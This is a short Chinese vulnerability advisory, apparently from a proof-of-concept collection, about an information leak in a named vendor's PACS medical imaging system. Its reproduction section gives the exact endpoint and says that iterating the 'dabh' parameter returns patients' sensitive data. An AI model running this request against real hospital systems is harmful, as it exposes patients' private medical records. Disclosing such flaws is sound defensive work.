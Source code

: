 # 成都信通网易医疗科技发展有限公司PACS(医学影像信息管理系统)存在信息泄露漏洞

# 一、漏洞简介
成都信通网易医疗科技发展有限公司总部位于四川成都高新区天府软件园，在国内医疗软件行业中率先采用Java技术，融入国际国内标准，整体设计，持续研发，先后形成了“智慧云医院信息平台”、“医共体信息平台”、“互联网医院平台”、“医养融合信息平台”等新一代一系列自主知识产权产品，全面覆盖了单体医院业务、区域医疗、医共体、“互联网+健康”等信息化建设领域。成都信通网易医疗科技发展有限公司PACS(医学影像信息管理系统)存在信息泄露漏洞，攻击者可通过该漏洞获取病人敏感个人信息。

# 二、影响版本
+ 成都信通网易医疗科技发展有限公司PACS(医学影像信息管理系统)

# 三、特征
![1700650941861-e1d2149c-0043-4e5b-8d5a-a051c63982a6.png](./img/x4f4ob5WjwPleqb3/1700650941861-e1d2149c-0043-4e5b-8d5a-a051c63982a6-670797.png)

# 四、漏洞复现
可通过遍历`dabh`参数获取敏感信息

```plain
/XtWebPacsASp/XTWebPacsGetJcbgByDabh.asp?dabh=1
```

![1700651190860-700100b3-eeeb-4a3d-b6d1-dae525636f57.png](./img/x4f4ob5WjwPleqb3/1700651190860-700100b3-eeeb-4a3d-b6d1-dae525636f57-945427.png)



> 更新: 2024-02-29 23:55:28  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/il1v7mdgbkmg93tx>